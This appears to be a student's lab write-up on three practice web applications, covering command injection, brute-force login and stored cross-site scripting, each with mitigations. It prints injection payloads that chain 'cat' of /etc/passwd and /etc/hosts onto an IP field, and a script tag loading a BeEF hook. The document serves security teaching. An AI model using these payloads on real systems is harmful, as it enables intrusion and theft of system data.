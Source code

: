 ### Web Application 1: Your Wish is My Command Injection

* Command to show contents of ```etc/passwd``` : ``` 8.8.8.8 &&  cat /../../etc/passwd ```
  ![image](./images/cmd_injection_etc_passwd.PNG)

* Command to show contents of ```etc/hosts ``` : ``` 8.8.8.8 &&  cat /../../etc/hosts ```
  ![image](./images/cmd_injection_etc_hosts.PNG)

#### Mitigations
* Add client side data validation that uses a RegEx to validate that only a IP address is being entered. 
* Add service side data validation that only allows for a valid IPv4 ip address to be used. 
* I would do both of these cause you can never trust the user input validation and should always be double checking server side

### Web Application 2: A Brute Force to Be Reckoned With
 ![image](./images/broken_auth.png)

#### Mitigations
* Add a max retry count for authenticating
* Expire passwords after thirty days of inactivity or after ninety days if actively used
* Implent MFA or other 2FA system. - Really important for any administration systems

### Web Application 3: Where's the BeEF?
* To get around the character lenght limitations on the text box, I just shortened the provided script tag ``` <script src="http://127.0.0.1:3000/hook.js"></script> ```  to be ``` <script src="http://127.0.0.1:3000/hook.js"/> ```. Since there is not Javascript within the body of the script tag you can just add a forward slash at the end of the script tag to close it.
  


![image](./images/petty_theft.png)

![image](./images/petty_theft_attacker.png)

![image](./images/fake_notification_bar.PNG)

#### Mitigations
* URL encode the message so that rendering it directly to the screen doesn't allow for Javascript to be executed.
* Have data validation client side and server side on the user input
